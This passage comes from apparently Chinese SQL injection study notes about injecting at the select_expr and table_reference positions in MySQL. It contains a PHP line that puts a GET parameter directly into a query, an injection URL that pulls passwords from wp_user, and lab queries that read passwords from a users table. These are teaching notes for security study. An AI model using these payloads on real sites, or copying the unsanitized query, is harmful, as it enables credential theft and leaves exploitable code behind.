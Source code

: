 ```
此时可以采取时间盲注进行数据获取，不过根据MySQL的语法，我们有更优的方法，利用AS别名的方法，直接将查询的结果显示到界面中。
访问链接http://XXX.XXX.XXX.XXX/sqln1.php？id=（select%20pwd%20from%20wp_user）%20as%20title
```

- 数据库别名AS区别
- SQL别名

##### 自我尝试

以下的自我尝试均来自 security.users 表，如下所示

<img src="图片\Snipaste_2023-02-06_16-19-20.png" alt="Snipaste_2023-02-06_16-19-20" style="zoom:80%;" />

```
SELECT (SELECT PASSWORD FROM users LIMIT 1) AS address,username FROM users LIMIT 1;
// (SELECT PASSWORD FROM users LIMIT 1) AS address 为可控处
```

<img src="图片\Snipaste_2023-02-06_16-21-07.png" alt="Snipaste_2023-02-06_16-21-07"  />

#### 注入点在table_reference：

- `table_reference`
  关键词代表查询数据来自的一个或多个表；
- SQL基础语法 - SELECT语句

```
$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");

SELECT title FROM (SElECT pwd AS title FROM wp_user)x;
```

- 当然，在不知表名的情况下，可以先从information_schema.tables中查询表名。在select_expr和table_reference的注入，如果注入的点有反引号包裹，那么需要先闭合反引号。读者可以在自己本地测试具体语句。

##### 自我尝试

```
SELECT id FROM (SELECT PASSWORD AS id FROM users)X;
// (SELECT PASSWORD AS id FROM users)X 为可控参数
```
